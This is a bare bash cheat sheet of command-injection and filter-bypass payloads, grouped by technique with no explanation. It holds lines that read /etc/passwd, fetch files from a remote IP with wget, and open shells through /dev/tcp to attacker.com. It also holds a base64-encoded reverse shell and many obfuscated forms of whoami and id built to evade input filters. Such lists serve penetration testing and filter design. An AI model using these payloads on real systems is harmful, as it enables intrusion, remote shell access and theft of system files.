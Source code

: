 ```bash
!-1
!-2
!-1!-2
!!-a
!-1\-a

# Command Chaining
;uname -a
&id
|sh
||ls
&&cat /etc/passwd

# Brace Expansion
{cat,lol.txt}
{echo,test}
{ls,-la}
{id,;}

# Environment Variables
${SHELL} -c whoami
$0 -c 'echo test'
sh<<<id
bash<<<$(ls)

# IFS Manipulation
cat${IFS}/etc/passwd
cat$IFS/etc/passwd
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b
IFS=,;`cat<<<cat,/etc/passwd`
echo${IFS}test
X=$'cat\x20/etc/passwd'&&$X
printf$IFS'$IFS\t/etc/passwd\n'|sh

# Alternative Command Paths
/bin/wh$u$uami
/???/b??/whoam?
/usr/*/whoami
./--version

# Encoding/Decoding
echo d2hvYW1p | base64 -d | sh
`echo c2ggLWkgPiYgL2Rldi90Y3AvMTI3LjAuMC4xLzQ0NDQgMD4mMQ== | base64 -d`
$(printf "\154\163")

# Variable Injection
cmd=whoami;$cmd
x=wh;y=oami;$x$y
a=l;b=s;$a$b -la

# Special Characters
$'\u0062\u0061\u0073\u0068'
$(tr '!-~' 'P-~!-O' <<< 'Xr]Fz')

# Redirection Bypass
cat</etc/passwd
sh</dev/tcp/attacker.com/443

# Regex Evasion
who$@ami
whoa\mi
wh\oa\mi
```